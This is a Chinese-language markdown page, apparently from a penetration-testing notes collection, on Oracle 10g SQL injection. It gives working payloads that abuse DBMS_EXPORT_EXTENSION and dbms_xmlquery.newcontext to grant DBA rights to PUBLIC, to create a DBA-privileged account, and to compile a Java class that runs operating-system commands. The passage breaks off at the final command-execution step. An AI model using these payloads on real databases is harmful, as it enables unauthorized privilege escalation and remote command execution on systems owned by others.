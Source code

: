 ![oracle带外传输](./oracle带外传输.png)

## 命令执行

```txt
测试环境:
CentOS Linux release 7.2.1511 (Core)
Oracle Database 10g Enterprise Edition Release 10.2.0.1.0 - 64bit Production

执行方式很多种，这边只研究Oracle10g，并且本地实测成功的:
DBMS_EXPORT_EXTENSION()
dbms_xmlquery.newcontext()
DBMS_JAVA_TEST.FUNCALL()
```

注意：注入时需去除末尾分号;

### DBMS_EXPORT_EXTENSION()

```txt
影响版本：Oracle 8.1.7.4, 9.2.0.1-9.2.0.7, 10.1.0.2-10.1.0.4, 10.2.0.1-10.2.0.2, XE(Fixed in CPU July 2006)
权限：None
详情：这个软件包有许多易受PL/SQL注入攻击的函数。这些函数由SYS拥有，作为SYS执行并且可由PUBLIC执行。因此，如果SQL注入处于上述任何未修补的Oracle数据库版本中，那么攻击者可以调用该函数并直接执行SYS查询。
提权：该请求将导致查询"GRANT DBA TO PUBLIC"以SYS身份执行。 因为这个函数允许PL / SQL缺陷（PL / SQL注入）。一旦这个请求成功执行，PUBLIC获取DBA角色，从而提升当前user的特权
payload：select SYS.DBMS_EXPORT_EXTENSION.GET_DOMAIN_INDEX_TABLES('FOO','BAR','DBMS_OUTPUT".PUT(:P1);EXECUTE IMMEDIATE ''DECLARE PRAGMA AUTONOMOUS_TRANSACTION;BEGIN EXECUTE IMMEDIATE ''''grant dba to public'''';END;'';END;--','SYS',0,'1',0) from dual

建立DBA权限的TEST帐号
select dbms_xmlquery.newcontext('declare PRAGMA AUTONOMOUS_TRANSACTION;begin execute immediate ''grant dba to test identified by test'';commit;end;') from dual;

直接添加CMDHSHELL

1.创建java包：
select dbms_xmlquery.newcontext('declare PRAGMA AUTONOMOUS_TRANSACTION;begin execute immediate ''create or replace and compile java source named "LinxUtil" as import java.io.*; public class LinxUtil extends Object {public static String runCMD(String args) {try{BufferedReader myReader= new BufferedReader(new InputStreamReader( Runtime.getRuntime().exec(args).getInputStream() ) ); String stemp,str="";while ((stemp = myReader.readLine()) != null) str +=stemp+"\n";myReader.close();return str;} catch (Exception e){return e.toString();}}}'';commit;end;') from dual;

2.赋予java权限：
select dbms_xmlquery.newcontext('declare PRAGMA AUTONOMOUS_TRANSACTION;begin execute immediate ''begin dbms_java.grant_permission( ''''SYSTEM'''', ''''SYS:java.io.FilePermission'''', ''''<<ALL FILES>>'''',''''EXECUTE'''');end;''commit;end;') from dual;

3.创建函数：
select dbms_xmlquery.newcontext('declare PRAGMA AUTONOMOUS_TRANSACTION;begin execute immediate ''create or replace function LinxRunCMD(p_cmd in varchar2) return varchar2 as language java name ''''LinxUtil.runCMD(java.lang.String) return String''''; '';commit;end;') from dual;

4.执行命令:
```
